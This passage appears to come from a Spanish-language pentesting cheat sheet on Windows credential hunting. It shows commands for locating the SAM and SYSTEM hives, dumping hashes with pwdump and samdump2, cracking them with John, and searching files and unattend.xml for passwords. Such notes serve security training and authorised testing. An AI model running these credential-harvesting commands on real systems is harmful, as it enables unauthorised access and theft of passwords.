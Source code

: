 Ver la configuracion SNMP:

```bash
reg query HKLM\SYSTEM\CurrentControlSet\Services\SNMP /s
Get-ChildItem -path HKLM:\SYSTEM\CurrentControlSet\Services\SNMP -Recurse
```

## Buscando Contraseñas

El administrador de cuentas de seguridad (SAM), a menudo administrador de cuentas de seguridad, es un archivo de base de datos. Las contraseñas de usuario se almacenan en formato hash en una colmena de registro, ya sea como hash LM o como hash NTLM. Este archivo se puede encontrar en %SystemRoot%/system32/config/SAM y está montado en HKLM/SAM.

```bash
# Usually %SYSTEMROOT% = C:\Windows
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

genere un archivo hash para john con pwdump o samdump

```bash
pwdump SYSTEM SAM > /root/sam.txt
samdump2 SYSTEM SAM -o sam.txt
```

Luego crackealo:

```bash
john -format=NT /root/sam.txt
```

Buscar el contenido de archivos, en este caso buscar passwords:

```bash
cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt
findstr /si password *.xml *.ini *.txt *.config
findstr /spin "password" *.*
```

Buscando archivos con un nombre de archivo determinado:

```bash
dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
where /R C:\ user.txt
where /R C:\ *.ini
```

Passwords en archivos unattend.xml

ubicacion de estos archivos:

```bash
C:\unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```
